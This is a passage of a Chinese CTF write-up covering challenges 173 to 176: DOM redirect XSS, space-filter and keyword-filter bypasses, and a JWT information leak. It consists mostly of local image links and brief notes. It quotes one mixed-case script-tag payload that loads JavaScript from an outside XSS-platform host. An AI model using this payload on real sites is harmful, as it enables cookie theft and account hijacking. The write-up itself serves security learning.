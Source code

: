 

![image-20241215223808017](D:\ctf wp\161-200.assets\image-20241215223808017.png)

## 173.xss DOM跳转

![image-20241215224338443](D:\ctf wp\161-200.assets\image-20241215224338443.png)

![image-20241215224349092](D:\ctf wp\161-200.assets\image-20241215224349092.png)

发现第一行输入不了  分析一下，代码意思是 从当前页面的URL中获取查询字符串（URL的get参数），如果参数名为"jumpto"，则将页面重定向到参数值所指定的URL

![image-20241215224807553](D:\ctf wp\161-200.assets\image-20241215224807553.png)

![image-20241215231804627](D:\ctf wp\161-200.assets\image-20241215231804627.png)

![image-20241215231831544](D:\ctf wp\161-200.assets\image-20241215231831544.png)



## 174.xss 过滤空格

![image-20241215232511971](D:\ctf wp\161-200.assets\image-20241215232511971.png)

正常注入发现空格没了

![image-20241215232830195](D:\ctf wp\161-200.assets\image-20241215232830195.png)

尝试后好像只有/**/来代替空格

![image-20241215233345213](D:\ctf wp\161-200.assets\image-20241215233345213.png)

## 175.xss 过滤关键词

本题直接过了 复制的代码

```javascript
<sCRiPt sRC=//xs.pe/LIg></sCrIpT>
```

就是大小写混着的 所以直接过滤了



## 176 jwt 敏感信息泄露

![image-20241217103855937](D:\ctf wp\161-200.assets\image-20241217103855937.png)

随便输入都是可以进入的

![](D:\ctf wp\161-200.assets\image-20241217103616151.png)

![image-20241217103655869](D:\ctf wp\161-200.assets\image-20241217103655869.png)
